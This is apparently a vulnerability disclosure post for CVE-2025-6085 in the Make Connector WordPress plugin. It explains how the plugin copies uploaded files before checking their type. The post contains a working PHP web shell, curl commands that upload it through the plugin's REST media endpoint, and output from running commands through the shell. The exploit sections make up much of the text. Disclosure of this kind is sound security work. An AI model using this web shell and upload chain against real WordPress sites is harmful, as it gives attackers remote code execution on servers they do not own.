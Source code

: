 +++
title = 'Make Connector <= 1.5.10 - Authenticated (Admin+) Arbitrary File Upload'
date = 2025-09-03T00:00:12+00:00
hideToc = true
+++
### CVE-2025-6085

The [Make Connector](https://wordpress.org/plugins/integromat-connector/) plugin does not sanitize the file types in its REST API media uploads, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF

curl -k -X POST https://lab1.hacker/wp-json/wp/v2/media \
  -H "IWC-API-KEY: YOURFRIENDLYKEYHERE" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
```

Leveraging the shell once it's in the uploads folder:
```bash
curl -k https://lab1.hacker/wp-content/uploads/2025/04/shello.php\?cmd\=ip%20addr         

<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 67461sec preferred_lft 67461sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86201sec preferred_lft 14201sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `/wp-content/integromat-connector/class/class-rest-request.php` file's `dispatch()` function will call `self::upload_media();` on line [24](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L24). This `upload_media()` function copies the uploaded file to a browsable directory `copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );` on line [74](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L74), prior to checking the allowed mime types, which it does on lines [90-95](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L90-95)

Vulnerable snipped from `class-rest-reques.php`:
```php
66	                if ( (int) $_FILES['file']['size'] === 0 ) {
67	                        Rest_Response::render_error( 500, 'The uploaded file exceeds the upload_max_filesize directive in php.ini.', 'rest_upload_unknown_error' );
68	                }
69	
70	                if ( (int) $_FILES['file']['error'] > 0 ) {
71	                        Rest_Response::render_error( 500, 'An error has occured when uploading file to the server.', 'rest_upload_unknown_error' );
72	                }
73	
74	                copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );
75	
76	                $title       = isset( $_REQUEST['title'] ) ? sanitize_title( $_REQUEST['title'] ) : '';
77	                $description = isset( $_REQUEST['description'] ) ? sanitize_text_field( $_REQUEST['description'] ) : '';
78	                $caption     = isset( $_REQUEST['caption'] ) ? sanitize_text_field( $_REQUEST['caption'] ) : '';
79	                $alt_text    = isset( $_REQUEST['alt_text'] ) ? sanitize_text_field( $_REQUEST['alt_text'] ) : '';
80	                $post_id     = isset( $_REQUEST['post'] ) ? (int) $_REQUEST['post'] : '';
81	
82	                $upload_dir = wp_upload_dir();
83	                $filename   = basename( $media_file_source );
84	                if ( wp_mkdir_p( $upload_dir['path'] ) ) {
85	                        $file = $upload_dir['path'] . '/' . $filename;
86	                } else {
87	                        $file = $upload_dir['basedir'] . '/' . $filename;
88	                }
89	
90	                $wp_file_type  = wp_check_filetype( $filename, null );
91	                $allowed_types = get_allowed_mime_types();
92	
93	                if ( ! in_array( $wp_file_type['type'], $allowed_types ) ) {
94	                        Rest_Response::render_error( 500, 'Sorry, this file type is not permitted for security reasons.', 'rest_upload_unknown_error' );
95	                }
```

## Manual Reproduction
1. Login to the admin panel and navigate to the `Make` plugin's settings, and copy the API key.
![one](/posts/images/cve-2025-6085/1.png)
2. Make a dirty web shell, or bring your own if you'd like:
```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF
```
2. Execute the following curl command to hit the plugin's media REST endpoint.
```bash
curl -k -X POST \
  https://VICTIMURLHERE/wp-json/wp/v2/media \
  -H "IWC-API-KEY: cjusksft1dwcoq43lyy6a6lf9tb6qc63" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
  -F "alt_text=Hacker Alt Text"
```
3. You will see a json response like below, but that's OK because our file already got moved :)
```json
{
    "code": "rest_upload_unknown_error",
    "message": "Sorry, this file type is not permitted for security reasons.",
    "data": {
        "status": 500
    }
}
```
4. Naviate to the webshell located at `https://lab1.hacker/wp-content/uploads/2025/04/shello.php?cmd=ip%20addr`.
